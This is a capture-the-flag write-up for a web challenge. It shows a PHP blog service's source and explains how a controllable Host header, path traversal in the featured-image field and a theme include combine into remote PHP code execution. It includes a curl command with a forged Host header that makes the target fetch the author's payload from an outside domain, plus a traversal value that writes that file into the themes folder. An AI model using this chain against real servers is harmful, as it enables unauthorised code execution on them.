



# Web 02

This was an interesting challenge. We are only provided with a link to a website and no source code.

```
Challenge is available at http://52.78.36.66:81/
```

The webapp is essentially a post service with image uploads. You can upload a "featured image" and create a post referencing that image.





Visiting the post.php directly revealed the source code 

```php
<?php
require_once('header.php');
require_once('db.php');

$post = [];

function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}

function get_title() {
    global $post;
    echo $post['title'];
}

function get_body() {
    global $post;
    echo $post['body'];
}

function get_img_src() {
    global $post;
    $base_url = "http://" . $_SERVER['HTTP_HOST'];
    echo $base_url."/uploads/".$post['feature_img'];
}

function check_theme($theme) {
    if(!in_array($theme, scandir('./themes'))) {
        die("Invalid theme!");
    }
}

if (isset($_GET['post_id'])) {
    require_once('post_header.php');
    
    $post_id = $_GET['post_id'];
    global $post;
    $post = get_post($post_id);
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
    echo("<button class='btn btn-primary' id='edit-btn'>Edit image</button>
<form action='post.php' method='post' width='50%'>
    <div class='form-group' id='edit-div'>
    <label for='exampleInputEmail1'>Degree</label>
    <input type='text' class='form-control' id='exampleInputEmail1' placeholder='90' name='degree'>
    <input type='hidden' class='form-control' id='exampleInputEmail2' value='$post_id' name='post_id'>
    <button type='submit' class='btn btn-primary'>Rotate</button>
  </div>");
    require_once('post_footer.php');
}
else if (isset($_POST['post_id']) && isset($_POST['degree'])) {
    $post_id = $_POST['post_id'];
    rotate_feature_img($post_id, (int) $_POST['degree']);
    header("Location: /post.php?post_id=$post_id&theme=theme1.php");
} else {
    show_source('post.php');
}

require_once('footer.php');
?>
```

The interesting functionality here is we can rotate an image. The bug lies in that function:

```php
function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}
```

Basically it checks if the image we are rotating exists on the server, otherwise it gets it from a remote server based on the HTTP_HOST, which we can control.

It then writes it to the the "$src_file" location and since we control that based on the `feature_img`, we can traverse it and make it write a file in the themes folder.

The file written in the themes folder can be later loaded:

```php
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
``` 

The image is rotated before getting saved, so I just used a [svg](./sol) with a text tag to preserve the php code after rotation.

The exploit was basically:

- Create an post with the "Featured Image" set to `../themes/jazzyhack`
- Rotate the image with a custom Host header and have the payload hosted at `/themes/jazzyhack` on the Host header domain you used.
```
curl 'http://52.78.36.66:81/post.php' -H 'Host: domain.com' --data 'degree=90&post_id=ZkXXHLCW'
``` 
(with the payload hosted at domain.com/themes/jazzyhack)


Now just load the theme jazzyhack and you have arbitrary php code execution.



- Jazzy
